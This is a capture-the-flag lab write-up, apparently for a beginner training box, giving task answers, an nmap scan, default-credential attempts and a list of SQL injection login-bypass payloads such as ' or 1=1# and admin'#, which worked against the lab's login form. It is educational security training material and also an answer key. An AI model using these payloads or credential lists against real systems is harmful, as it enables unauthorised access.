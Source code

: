 ## 1. Questions
- Task 1
	- What does the acronym SQL stand for?
		- `Structured Query Language`
- Task 2
	- What is one of the most common type of SQL vulnerabilities?
		- `SQL Injection`
- Task 3
	- What is the 2021 OWASP Top 10 classification for this vulnerability?
		- `A03:2021-Injection`
- Task 4
	- What does Nmap report as the service and version that are running on port 80 of the target?
		- `Apache httpd 2.4.38 ((Debian))`
- Task 5
	- What is the standard port used for the HTTPS protocol?
		- `443`
- Task 6
	- What is a folder called in web-application terminology?
		- `directory`
- Task 7
	- What is the HTTP response code is given for 'Not Found' errors?
		- `404`
- Task 8
	- Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?
		- `dir`
- Task 9
	- What single character can be used to comment out the rest of a line in MySQL?
		- `#`
- Task 10
	- If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?
		- `Congratulations`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- curl
- SQL
## 3. Approach
### nmap scan
- Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.93.83
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```
<snip>
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
<snip>
```
### Test webserver response
#### curl
- Useful resource
	- https://devhints.io/curl
```bash
curl -i 10.129.93.83
```
#### Browser
![](../Assets/Screenshot%202025-09-17%20at%2009.25.22.png)
### Research common login credentials
- Usernames
	- https://portswigger.net/web-security/authentication/auth-lab-usernames
	- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/04-Authentication_Testing/02-Testing_for_Default_Credentials#:~:text=Try%20the%20following%20usernames%20%2D%20%E2%80%9Cadmin,%E2%80%9Ctesting%E2%80%9D%20and%20similar%20names.
- Passwords
	- https://en.wikipedia.org/wiki/List_of_the_most_common_passwords
	- https://outpost24.com/blog/it-admins-weak-password-use/
### Test webserver login
- Usernames
	- `admin`
	- `administrator`
	- `root`
	- `system`
	- `guest`
	- `test`
- Passwords
	- `qwerty`
	- `password`
	- `admin`
	- `root`
	- `admin@123`
- Unable to login using example usernames and passwords
### Research common login form vulnerabilities
- https://www.strongdm.com/blog/authentication-vulnerabilities
- https://medium.com/stolabs/understanding-potential-vulnerabilities-in-authentication-mechanisms-bc488c5d8637
- https://owasp.org/www-project-top-ten/
- https://owasp.org/Top10/A03_2021-Injection/
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#:~:text=Bypassing%20login%20screens%20(SMO%2B)
### Test login form for sql injection vulnerability
- Useful resource
	- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#:~:text=Bypassing%20login%20screens%20(SMO%2B)
- Test payloads (with arbitrary password)
	- `admin' --`
	- `admin' #`
	- `admin'/*`
	- `' or 1=1--`
	- `' or 1=1#`
	- `' or 1=1/*`
	- `') or '1'='1--`
	- `') or ('1'='1--`
- Logged in successfully with payload `admin'#` as the username and `test` as the password
### Retrieve the flag
- Presented upon login
![](../Assets/Screenshot%202025-09-17%20at%2009.24.44.png)